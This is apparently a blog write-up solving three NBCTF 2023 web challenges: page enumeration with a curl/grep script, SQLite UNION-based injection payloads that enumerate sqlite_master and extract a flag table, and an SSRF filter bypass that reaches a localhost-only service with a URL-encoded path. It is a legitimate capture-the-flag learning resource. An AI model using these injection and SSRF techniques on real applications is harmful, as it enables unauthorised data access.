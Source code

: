 ```yaml
---
title: NBCTF 2023 - Web Challenges
date: Sun Dec  3 11:10:54 PM +04 2023
categories: [Writeup]
tags: [ctf,nbctf,nbctf2023,sqli,sqlite3,ssrf,lfi]
---
```


## Inspector Gadget

### Description

While snooping around this website, inspector gadet lost parts of his flag. Can you help him find it?

[inspector-gadget.chal.nbctf.com](https://inspector-gadget.chal.nbctf.com/)

Author: Goodbye

### Solution

Given website is statically serving html files, different pages can be found from source:

```html
<script>
    function openotherpage() { window.location.href = "Page1.html"; }
    function opengadgetarms() { window.location.href = "gadgetarms.html"; }
    function opengadgetcoat() { window.location.href = "gadgetcoat.html"; }
    function opengadgethat() { window.location.href = "gadgethat.html"; }
    function opengadgetskates() { window.location.href = "gadgetskates.html" }
    function opengadgetcopter() { window.location.href = "gadgetcopter.html" }
    function opengadgetmangifyingglass() { window.location.href="gadgetmag.html" }
    function opengadgetphone() { window.location.href="gadgetphone.html" }
    function getflag() { window.location.href="supersecrettopsecret.txt" }
</script>
```

Visit all urls with not so perfect script and grep:

{::options parse_block_html="true" /}

<details>
<summary markdown="span">Curl Grep Flag.sh</summary>

```bash
#!/bin/bash

url="https://inspector-gadget.chal.nbctf.com/"
pages=(
  "" # Base URL
  "Page1.html"
  "gadgetarms.html"
  "gadgetcoat.html"
  "gadgethat.html"
  "gadgetskates.html"
  "gadgetcopter.html"
  "gadgetmag.html"
  "gadgetphone.html"
  "supersecrettopsecret.txt"
)

for page in "${pages[@]}"; do 
  page="$url$page"
  echo $page;
  curl -s "$page" | grep "Flag Part" -i -A1 -B1
done;
```

</details>

{::options parse_block_html="false" /}

- `<title>Flag Part 1/4:nbctf{G00d_</title>` (gadgetmag.html)
- `Flag Part 2/4: J06_` (supersecrettopsecret.txt)
- `<img  src="Krooter Gadget.jpg"  alt="Flag Part 3/4: D3tect1v3_">` (index.html)

All that's missing is part 4. Lets check [robots.txt](https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt):

```
User-agent: *
Disallow: /mysecretfiles.html
```

- `part 4/4 G4dg3t352}` (mysecretfiles.html)

> Flag: nbctf{G00d_J06_D3tect1v3_G4dg3t352}
{: .prompt-tip }

## walter's crystal shop

### Description

My buddy Walter is selling some crystals, check out his shop!

[walters-crystal-shop.chal.nbctf.com](https://walters-crystal-shop.chal.nbctf.com/)<br>
[walters_crystal_shop.zip](https://nbctf.com/uploads?key=46721a897c4888e3414e6bde8f2c7e34c71c8f45f1cb70e6764db9295b2fc728%2Fwalters_crystal_shop.zip)

Author: kroot

### Solution

Challenge seems to be SQLi, trying the basic payload we get confirmation:

![walters-crystal-shop-1](/assets/images/nbctf/2023/walters-crystal-shop-1.png)

Identify columns length: `Citrine' UNION SELECT 1,2,3 --` (Already known, but double check). We see new column with our values.

[PayloadsAllTheThings - SQLite3](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

Enumerate tables: `Citrine' UNION SELECT 1,2,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --`<br>
Tables: `crystals,flag`

Enumerate `flag` table fields: `Citrine' UNION SELECT 1,2,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flag' --`<br>
Fields: `CREATE TABLE flag (flag TEXT)`

Get the flag: `Citrine' UNION SELECT 1,2,flag from flag -- `<br>

> Flag: nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
{: .prompt-tip }


## secret tunnel

### Description

Can you find the flag on the other end of my secret tunnel?

[secret-tunnel.chal.nbctf.com](https://secret-tunnel.chal.nbctf.com/) <br>
[secret_tunnel.zip](https://nbctf.com/uploads?key=4154a63752b2a170939e19e12511b6701188d6d7bf490b205d068df3b40c734a%2Fsecret_tunnel.zip)

Author: kroot

### Solution

Main website: `This magical tunnel allows you to see the first 20 characters of any website! Can you pass through this tunnel and find the flag?`

URL: <https://google.com><br>
Response: `<!doctype html><html itemscope="`

In the given source we see 2 apps being ran:

```bash
#!/bin/sh
python3 -m flask --app flag.py run --host=0.0.0.0 --port=1337 & 
python3 -m flask --app main.py run --host=0.0.0.0
```

```py
@app.route("/flag", methods=["GET"])
def index():
    return Response(flag, mimetype="text/plain")
```

Flag app is running locally and is not accessible, if we want the flag we must make a get request to `localhost:1337/flag`.

Filters:

```py
@app.route("/fetchdata", methods=["POST"])
def fetchdata():
    url = request.form["url"]

    if "127" in url:
        return Response("No loopback for you!", mimetype="text/plain")
    if url.count('.') > 2:
        return Response("Only 2 dots allowed!", mimetype="text/plain")
    if "x" in url:
        return Response("I don't like twitter >:(" , mimetype="text/plain") 
    if "flag" in url:
        return Response("It's not gonna be that easy :)", mimetype="text/plain")

    try:
        res = requests.get(url)
    except Exception as e:
        return Response(str(e), mimetype="text/plain")

    return Response(res.text[:32], mimetype="text/plain")
```

- We cant type `127` for `127.0.0.1`, but we can just use `localhost`.
- `.` Prevents IPv4 address.
- `x` No idea.
- `flag` We cant have word `flag` in the url, but we can URLEncode the word and send it that way.

Final URL: `http://localhost:1337/%66%6c%61%67`

> Flag: nbctf{s3cr3t_7uNN3lllllllllll!}
{: .prompt-tip }
